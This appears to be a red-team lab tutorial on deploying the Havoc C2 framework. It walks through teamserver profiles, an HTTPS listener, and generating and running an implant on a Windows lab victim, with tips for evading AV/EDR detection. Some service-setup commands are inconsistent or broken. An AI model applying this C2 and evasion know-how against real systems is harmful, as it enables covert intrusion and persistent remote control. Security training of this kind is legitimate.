# Havoc C2

With a phletora of attack frameworks available (https://howto.thec2matrix.com), the most important requirement is *malleability/customizability*. Commonly known frameworks such as `metasploit`, `cobalt strike`, `Empire` (Starkiller GUI), `BruteRatel`, `Mythic C2`, `Covenant` and `Sliver` come to mind. 


(<https://c2matrix.webflow.io>)


In this training we'll be using a rather new, cobalt strike like framework called `Havoc C2`.

> HAVOC Requires `sudo apt install mingw-w64 -y` on your kali !!! In case of compile errors, download this : https://github.com/troglobit/misc/releases/download/11-20211120/x86_64-w64-mingw32-cross.tgz extract to /usr/bin (#~$ sudo tar -xzvf [compilerZip].tgz -C /usr/bin)
>
> Then modify your /usr/share/havoc/profiles/havoc.yaotl file and change both the
> Compiler64 & Compiler86 variables to point to: "usr/bin/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"

```yaml
Build {
        Compiler64 = "/usr/bin/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
        Compiler86 = "/usr/bin/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
        Nasm = "/usr/bin/nasm"
    }
```


<https://github.com/HavocFramework/Havoc?tab=readme-ov-file>

Attack frameworks typically all consist of the following elements

1. ***Teamserver***
The central C2 server that receives C2 traffic from implants on its listeners (i.e. `LHOST` in metasploit), management connections from the client as well as it typically also hosts payloads.

1. ***Client***
This is the operater console that connects to the teamserver and allows the adversary to manage listeners, malleable profiles, payloads and implants.

1. ***Implant, beacon, demon, ...*** 
This is the actual malicious code that communicates back over a C2 channel to the teamserver, very often this is primarily a stager/loader (a tiny program that will download the actual malicious code and typically inject it in to memory of a current or remote process.) - attack frameworks will provide a `payload generator` that can build different types of payloads (Exe's, dll's, shellcode, etc...).

The most known is probably MSFVenom from the `Metasploit Framework`.




4. ***C2 Redirectors*** 
We won't be using this in the lab, but in real world scenarios these functies as proxies between the victim and the team-server (It's easier to pop up a new proxy, than a completely new teams-server)

Havoc C2 is the framework we will be using in this training, however the techniques we'll be using can be utilized in each of beforementioned frameworks.

> On Kali we can simply install Havoc C2 with the following command (this is already done)
> 
```bash
apt install havoc
```

# Creating a custom profile
Let's have a look at the custom profile we have created for this team server. The profile will have the general settings such as users that can log in to the team server, user agents for HTTP/HTTPs listeners, and how our implants will behave.

> ***OPSEC HINT*** : Always customize your profiles as default profiles are almost often finger printed by AV/EDR.

```bash
sudo nano /opt/Havoc/profiles/custom.yaotl
```

This is the content of the `custom.yoatl` profile:

```yaml
Teamserver {
    Host = "0.0.0.0"
    Port = 40056

    Build {
        Compiler64 = "/usr/bin/x86_64-w64-mingw32-gcc" #latest version of kali this needs to be replaced
        Nasm = "/usr/bin/nasm"
    }
}

Operators {
    user "Threatadmin" {
        Password = "Threathunt25"
    }
}

# demon setting.

Demon {
    Sleep = 2
    Jitter = 20

    TrustXForwardedFor = false

    Injection {
        Spawn64 = "C:\\Windows\\System32\\Werfault.exe"
    }

    Binary {
        ReplaceStrings-x64 = {
            "demon.x64.dll": "",
            "This program cannot be run in DOS mode.": "",
        }
    }
}
```

# Running the teamserver


```bash
havoc server --profile /opt/Havoc/profiles/custom.yoatl -v --debug
```

Let's set thsis up as a service:

```bash
sudo nano /lib/systemd/system/havocservice.service
```

```yaml
[Unit]
Description=HavocServer
After=network.target

[Service]
Type=idle
Restart=on-failure
User=root
ExecStart="/usr/bin/havoc" "server" "--profile" "/opt/havoc/profiles/https.yaotl"

[Install]

```

Change the file permisions, enable and start the service:

```
sudo chmod 644 /lib/systemd/system/
sudo systemctl daemon-reload
enable havocserver.service
sudo systemctl start havocserver.service 
systemctl status havocserver.service
"
```
# Running the client



In your terminal open a new tab, then run the following command:


```code
havoc client
```
We can now log in to our teamserver using the user `Threatadmin` and the password which we defined in the custom Havoc C2 profile.



Let's start by setting up a listener:

<https://havocframework.com/docs/profiles>

In the Havoc GUI to to `view` and select listeners.



> ***OPSEC HINT*** : Always customize your listeners by using valid user agents, also by using HTTPs we make sure our connections are harder to inspect. This is a nice website to generate user agents strings: <https://useragents.io/parse/my-user-agent>

Here's a regular chrome user agent from your windows machine:
```yaml
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
```
Let's add an HTTPs listener, click on `Add` and enter the listener configuration. Give the listener a name, select `Https` and past the user agent in the correct field. Click on `Save`

> Make sure you select the correct IP addres (host) for your machine! You can double check by running ifconfig.





We can also add this to our Havoc profile, so that all these settings are applied when starting the team server. But before we do that, lets keep our OPSEC in mind, we need HTTPS - and we bettter not use the default SSL certificates, those might be signatured. 

Next we're going to create a self-signed SSL certificate (PEM) and key file - Self signed certificates are of course not ideal - in a real world scenario we'd have them signed by a trusted PKI.

```bash
cd /opt/havoc/
mkdir certs
cd certs
openssl req -new -newkey rsa:4096 -x509 -sha256 -days 365 -nodes -out public.crt -keyout private.key
```
Output:



Let's copy the custom.yoatl profile to a new HTTPS template where we'll add the certs, user-agent, listener settings and so on

```bash
cd /opt/havoc/profiles
sudo cp custom.yoatl https.yoatl
sudo nano /opt/Havoc/profiles/custom.yaotl
```

This is the new content of the custom `HTTPS.yoatl` profile:

```yaml
Teamserver {
    Host = "0.0.0.0"
    Port = 40056

    Build {
        Compiler64 = "/usr/bin/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
        Compiler86 = "/usr/bin/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
        Nasm = "/usr/bin/nasm"
    }
}

Operators {
    user "Threatadmin" {
        Password = "Threathunt25"
    }
}

# HTTPS LISTENER AND CERTS

Listeners {
    Http {
        Name         = "HTTPs Listener"
        Hosts        = ["kali"]
        #KillDate     = "2006-01-02 15:04:05" 
        #WorkingHours = "8:00-17:00"
        HostBind     = "0.0.0.0"
        PortBind     = 443
        PortConn     = 443
        HostRotation = "round-robin"
        Secure       = true
        UserAgent    = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36"
        Cert {
                Cert = "/opt/havoc/certs/public.crt"
                Key = "/opt/havoc/certs/private.key"
        }
     }
}
# demon setting.

Demon {
    Sleep = 2
    Jitter = 20

    TrustXForwardedFor = false

    Injection {
        Spawn64 = "C:\\Windows\\System32\\Werfault.exe"
        Spawn32 = "C:\\Windows\\SysWOW64\notepad.exe"
    }

    Binary {
        ReplaceStrings-x64 = {
            "demon.x64.dll": "",
            "This program cannot be run in DOS mode.": "",
        }
    }
}
```

Now close your Havoc Teamserver and client in terminal (control-c) and start the teamserver again with your new profile:

```bash
havoc server --profile /opt/havoc/profiles/https.yoatl -v --debug
```

Open a second tab in your terminal and run:

```bash 
havoc client
```

Let's go and check if our profile has created the HTTPS listener - in the Havoc client go to `VIEW`, `Listeners`, select the HTTPs Listener and click on edit. You'll see the following (please note the host bind address will be different from the screenshot).



On your windows machine when we browse with Chrome to the HTTPs listener (https://10.0.0.7:443), we'll now see our own custom self-signed certificate - ***one IOC less for AV/EDR to trigger on! And C2 traffic is now encrypted!***



We'll create a vanilla demon payload as an executable, make sure all settings are like in the screenshot below (we'll go into the advanced evasion settings later on), save the payload in ***"/opt/havoc/payloads"*** directory:



On your kali machine, go your terminal and let's hosts this payload so we can download it on our windows victim machines:

```bash
cd /opt/havoc/payloads
updog2
```



Now, on your windows machine use `Chrome` and go to <http:\\kali:9090\> and download the Havoc demon ("**demon.x64.exe**") to 

> ***NOTE***: "C:\Temp" is is whitelisted in MS Defender, we will deal with AV Evasion later on, for now we just want to make sure our code executes and sets up a c2 connection.



> IMPORTANT: For the time being turn your Windows Defender `OFF`.

We want to start with regular user privileges, so open a command prompt running as the unprivileged user `student`.

```powershell
runas /user:student cmd.exe
```

Enter the password, and in the new command prompt you are now running as a regular user with medium integrity.



Now from this new command prompt running as unprivileged user, execute the payload:

```powershell
cd \temp
demon.x64.exe
```


We can now interact with this implant by right-clicking the icon and selecting `"Interact"`.





Let's check if our demon is actually running with the student account in medium integrity.

```powershell
whoami 
```



We now have a simple Havoc demon payload running on the victim client, of course this would have been detected by AV, and as a regular user we can't do all the cool stuff - so let's continue and see how we can elevate privileges.


